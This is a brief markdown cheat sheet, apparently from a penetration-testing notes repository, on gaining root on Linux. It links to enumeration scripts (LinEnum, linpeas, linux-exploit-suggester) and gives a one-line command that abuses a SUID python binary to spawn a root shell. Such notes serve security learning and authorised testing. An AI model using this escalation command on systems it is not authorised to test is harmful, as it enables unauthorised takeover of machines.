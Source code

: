 # Becoming root

To escalate privileges you need to find vulnerabilities in the target system.
Find this with any of these scripts:

- [LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)
- [linpeas](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)
- [linux-exploit-suggester](https://raw.githubusercontent.com/knarkzel/linux-exploit-suggester/master/linux-exploit-suggester.sh)

## Python binary

If you found a `python` binary with SUID, run following to become root:

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
